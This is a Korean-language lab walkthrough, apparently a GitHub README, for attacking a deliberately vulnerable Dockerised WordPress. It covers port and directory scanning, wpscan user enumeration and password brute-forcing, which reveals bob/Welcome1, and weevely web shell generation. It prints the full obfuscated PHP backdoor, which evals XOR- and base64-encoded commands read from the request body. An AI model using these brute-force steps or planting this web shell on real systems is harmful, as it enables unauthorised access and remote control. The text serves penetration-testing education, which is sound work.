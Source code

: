 ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/13f1f546-cc3c-4287-8bca-252a673443b8)
## Docker_WP_Hacking
도커 환경으로 구성한 워드프레스를 도커 취약점과 워드프레스 취약점을 이용해 해킹해보기.

## 사전준비
- 취약한 도커 이미지를 가상화 툴에 올려 준비해준다. : 192.168.146.129
- Kali Linux : 192.168.146.128
- WireShark
- Burpsuite (Decoder용도)

## 정보수집
- nmap을 통한 포트 스캔
```
sudo nmap -sV 192.168.146.129 -p-
sudo nmap -sV -sC 192.168.146.129 -p-
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/0a64950c-3f19-472f-8145-93b562db515d)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/11b8c2fe-2e10-4cc5-81fc-26bbdedfbe16)
- /wp-admin/ 경로 정보 획득
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/c2041775-4ecb-4186-9f02-771b675487ba)
- 8000 포트, 22번 포트 확인
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/31d1c0dd-a66d-45b1-9984-02de893825bd)

- Nikto를 통한 정보 수집
```
sudo nikto -h http://192.168.146.129:8000/
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/3cf75a46-568c-4f8c-8a2c-03bb9e1f6862)

- dirb를 통한 정보 수집
```
sudo dirb http://192.168.146.129:8000/
```
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/170e296e-7298-4bb8-9ec1-25f0e5df1b61)

- wpscan을 통한 정보(워드프레스 플러그인 취약점) 수집
```
wpscan --url http://192.168.146.129:8000/ --enumerate p
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/7979d634-5639-49df-8567-7f1fa200fac6)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/71539c00-8342-4b39-9c93-4b868c99b1f9)
- 메시지를 읽어보니 POST 메소드는 허용하는 것으로보아 무차별 대입공격을 허용하는 것 같다.

## brute-force 공격

-wpscan을 이용해 wordpress 계정 정보 얻기

```
wpscan --url http://192.168.146.129:8000/ --enumerate u
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/b61fb484-9230-47ca-a415-76c5c4c09b5e)

- wpscan의 무차별 대입 공격 기능 사용
- github SecList의 password 모음을 사용.

```
sudo git clone https://github.com/danielmiessler/SecLists.git
sudo wpscan --url http://192.168.146.129:8000/ --passwords ~/SecLists/Passwords/Common-Credential/10-million-password-list-top-10000.txt --usernames bob
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/80b80b6e-0292-4a3d-9b38-67e3c97675a0)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/210c83da-95ac-42e7-b7d8-c04bbb289f9c)

## 웹쉘 생성
- weevly를 사용하여 웹쉘 생성
```
sudo weevely generate hacker shell.php
cat shell.php
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/466ade39-1490-4a56-b3d7-ad1a12b9d5aa)

## 웹쉘 코드 업로드
- [wordpress admin site] -> [login(bob/Welcome1)] -> 
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/1db97540-a895-4d8f-915c-5c291598a904)

```
?>
<?php
$B=str_replace('WQ','','cWQreatWQWQe_fWQuncWQtWQion');
$Z='$ku2="du26a6bc0d";$u2khu2="b10694a2du290e";$kf="u23a6964u28u2f3a03";$p=u2"g7e6u2hLIPrmHu2v7eIu2ju2";fun';
$l='u2val(@gzuncomu2pru2ess(@x(u2@base6u24_decode($m[1])u2,$k)))u2;$ou2=@ou2b_get_cou2ntentu2s();@obu2';
$A='u2"/$kh(.u2+)u2$kf/",@file_u2get_cu2ou2ntents(u2"php://inpu2uu2t"),u2$m)==1)u2 {@ob_u2su2tart();@e';
$h='2u2u2($j<$c&&$u2i<$l);$j++,u2$i++u2){u2$o.=$t{$iu2}^u2$k{$j}u2;}}returnu2 u2$o;}if (@preg_mau2tch(';
$d='_endu2u2_cleanu2();$r=u2@bu2ase64_encode(@u2x(@gu2zcompress($u2u2o),$k))u2;pu2rint("$p$kh$r$kf");}';
$G='cu2tion x($t,$k){$u2c=stru2len($ku2);$lu2u2=strlen($tu2)u2;$o="";for(u2$i=u20;$i<$l;){fu2or($j=0;u';
$k=str_replace('u2','',$Z.$G.$h.$A.$l.$d);
$C=$B('',$k);$C();
?>
<?php

```

